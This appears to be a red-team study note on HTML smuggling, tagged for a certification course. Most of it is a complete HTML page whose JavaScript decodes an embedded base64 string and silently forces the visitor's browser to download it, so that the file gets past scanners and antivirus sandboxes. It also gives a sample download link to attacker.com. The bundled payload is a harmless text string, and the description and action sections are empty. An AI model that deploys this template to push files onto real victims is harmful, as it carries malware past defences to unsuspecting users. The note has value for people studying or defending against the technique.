 
Allows to get around scanners and AV sandbox by embedding the payload into the HTML source code and using Javascript to construct URLs by the browser at runtime. 

Typical link in a html file (easily scannable):

`<a href="http://attacker.com/file.doc">Download Me</a>`


### 🖊️ Setup

1) You can host the following html file:

```
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```

2) Once the victim is sent to this webpage, a malicious file will be downloaded automatically. In this example "test.txt", the contents of the file are the uncoded base64 string added. 
3) MOTW will be present in the file though. 


## 📔 Description

- 

##  📗 Action to perform 

1. 


### Properties
---
📆 created   {{07-02-2024}} 11:36
🏷️ tags: #redteam #crto   
---

